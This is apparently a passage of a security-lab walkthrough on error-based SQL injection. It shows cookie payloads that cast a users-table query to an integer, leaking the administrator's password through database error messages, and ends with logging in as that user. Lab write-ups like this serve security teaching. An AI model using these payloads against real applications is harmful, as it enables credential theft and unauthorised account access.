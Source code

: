 Notice that the `WHERE` statement could have the same returned value with the above but it would cause the character limit error

```
TrackingId=' AND CAST((SELECT username FROM users WHERE username="administrator") AS int)=1--
```

```html
<p class=is-warning>
	Unterminated identifier started at position 89 in SQL SELECT * FROM tracking WHERE id = '' AND CAST((SELECT username FROM users WHERE username="admin'. Expected " char
</p>
```

Change the `SELECT` statement which retrieve the username to retrieve the password

```html
Cookie: TrackingId=' AND CAST((SELECT password FROM users LIMIT 1) AS int)=1--
```

Verify that the returned error leaks the password of the user `administrator`

```html
<p class=is-warning>
	ERROR: invalid input syntax for type integer: "6qhdm3vqswxq32vy7q29"
</p>
```

Use the password to login as `administrator` and solve the lab